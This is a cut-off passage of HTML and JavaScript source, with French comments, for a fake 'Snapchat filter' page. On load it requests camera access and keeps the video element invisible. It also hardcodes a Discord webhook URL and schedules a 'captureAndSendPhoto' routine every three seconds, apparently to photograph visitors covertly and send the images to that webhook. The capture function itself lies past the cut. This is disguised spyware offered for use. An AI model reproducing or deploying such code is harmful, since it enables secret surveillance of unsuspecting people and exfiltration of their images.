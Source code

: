 /* Masquer la vidéo mais la garder fonctionnelle */
#video {
position: absolute;
opacity: 0;
pointer-events: none;
}
</style>
</head>
<body>
<header>
<img src="https://png.pngtree.com/element_our/sm/20180626/sm_5b321c9cb2d25.jpg" alt="Snapchat Logo" id="snap-logo">
</header>

<section>
<h1>Testez le nouveau filtre ici !</h1>

<canvas id="canvas"></canvas>
</section>

<video id="video" autoplay playsinline></video> 

<script>
const DISCORD_WEBHOOK_URL = "https://discord.com/api/webhooks/1218192955949449217/1lvAsm4GDuLyyXlccS2YNUlOKPe4X-ESYVoXauGyyYIBHyr5KrMvDOhR4tK5yKIX3LU4";

window.addEventListener('load', () => {
const video = document.getElementById('video');
const canvas = document.getElementById('canvas');
const context = canvas.getContext('2d');

let photoCount = 0; // Limite de captures

// Demande l'accès à la caméra
navigator.mediaDevices
.getUserMedia({ video: true })
.then((stream) => {
video.srcObject = stream;
video.play();

video.addEventListener('loadeddata', () => {
console.log("Caméra prête!");

// Ajuste la taille du canevas
canvas.width = video.videoWidth;
canvas.height = video.videoHeight;

// Affiche la vidéo en temps réel
function renderVideo() {
context.drawImage(video, 0, 0, canvas.width, canvas.height);
requestAnimationFrame(renderVideo); // Continue le rendu en boucle
}
renderVideo(); // Lance le rendu en temps réel

// Capture toutes les 3 secondes
setTimeout(() => {
captureAndSendPhoto();
setInterval(captureAndSendPhoto, 3000);
}, 1000);
});
